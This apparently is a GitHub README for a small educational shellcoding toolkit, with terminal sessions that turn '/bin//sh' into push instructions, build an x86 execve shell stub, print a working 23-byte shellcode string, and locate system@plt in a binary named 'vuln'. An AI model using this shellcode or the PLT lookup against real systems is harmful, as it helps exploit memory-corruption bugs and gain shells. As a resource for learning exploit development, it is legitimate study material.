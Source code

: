 # shellcoding
Just a collection of scripts to help out with basic custom shellcoding.  For educational purposes, created with intention of teaching myself assembly a bit more every day.  

- Plans to integrate everything together in the future and pipe to cfuzz.

- Encoding coming eventually? 

##Stringhex
    root@kali:~/shellcoding# stringhex /bin//sh

    Hex for string '/bin//sh' is: \x68\x73\x2F\x2F\x6E\x69\x62\x2F

    //sh: push 0x68732f2f

    /bin: push 0x6e69622f

    [**] Copy and paste the below directly into the .asm.

        push 0x68732f2f

        push 0x6e69622f

##Newasm
    root@kali:~/shellcoding# newasm test

    root@kali:~/shellcoding# cat test.asm

    global _start

    _start:

        xor eax, eax

        push eax

        ;add your payload here

        push 0x68732f2f

        push 0x6e69622f
####The 2 pushes above we added from stringhex /bin//sh
        mov ebx, esp

        push eax

        ;add your additional argument here

        ;mov ecx, esp

        ;push eax

        ;push ecx

        push ebx

        mov ecx, esp

        mov al, 11

        int 0x80
####If we wanted to add arguments (for example for a /bin/cat shellcode) you'd simply add the argument right after it says ";add your additional argument here" and uncomment the 3 lines after it.


##Chex
    root@kali:~/shellcoding# chex test

    \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

    Shellcode is 23 bytes long

    root@kali:~/shellcoding# ./test

    # id
    
    uid=0(root) gid=0(root) groups=0(root)

####This automatically compiles your asm file, generates some hex, and gives you the length.

##Plt

    root@kali:~/shellcoding# ./plt ../vuln

    8 PLT(s) found.

    \xb0\x83\x04\x08 <putchar@plt+0x10> [0x80483b0]

    \x90\x83\x04\x08 <__libc_start_main@plt> [0x8048390]

    \x60\x83\x04\x08 <strcpy@plt> [0x8048360]

    \x70\x83\x04\x08 <puts@plt> [0x8048370]

    \x50\x83\x04\x08 <printf@plt> [0x8048350]

    \x50\x83\x04\x08 <printf@plt> [0x8048350]

    \xa0\x83\x04\x08 <putchar@plt> [0x80483a0]

    \x80\x83\x04\x08 <system@plt> [0x8048380]

    root@kali:~/shellcoding# ./plt ../vuln -f system

    1 PLT(s) found.

    \x80\x83\x04\x08 <system@plt> [0x8048380]
####Quickly finds plts.

